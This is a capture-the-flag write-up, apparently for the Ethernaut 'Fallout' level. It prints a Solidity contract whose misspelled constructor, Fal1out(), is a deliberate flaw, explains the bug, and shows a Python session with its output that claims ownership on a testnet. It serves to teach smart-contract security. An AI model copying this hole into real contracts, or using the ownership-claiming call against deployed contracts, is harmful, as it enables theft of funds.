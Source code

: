 # 02 - Fallout

## Challenge

Claim ownership of the contract below to complete this level.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Summary

It is very obvious that the flaw comes from this part:

```js
/* constructor */
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

Instead of `Fallout()`, which is the name of the contract, the constructor is named `Fal1out()`. This means that the "constructor" is not called when the contract is deployed, and the `owner` is not set. This means that anyone can call `Fal1out()` and become the owner of the contract.

## Walkthrough

Call `Fal1out()` to become the owner of the contract.

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import encode_with_signature
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x5791D4ccd39A311eEBE03d286A12e2BEcD2ee8d9'
>>> account.send_transaction(contract_addr, data=encode_with_signature("Fal1out()"), value=1)
2023-06-04 21:32:28.962 | INFO     | cheb3.account:send_transaction:103 - Transaction to 0x5791D4ccd39A311eEBE03d286A12e2BEcD2ee8d9: 0xa0db6df2128fb431da1f2269309b1592697e407c49b08d77d1a75fd2e30a97d8
AttributeDict({'blockHash': HexBytes('0x81191bde7b353f1a2a4236afbcf1cb581ee7b3936dc398fac73e90c4774b59ae'), 'blockNumber': 9124623, 'contractAddress': None, 'cumulativeGasUsed': 10408197, 'effectiveGasPrice': 38615, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 65506, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x5791D4ccd39A311eEBE03d286A12e2BEcD2ee8d9', 'transactionHash': HexBytes('0xa0db6df2128fb431da1f2269309b1592697e407c49b08d77d1a75fd2e30a97d8'), 'transactionIndex': 51, 'type': 0})
```

Submit the instance to pass the level.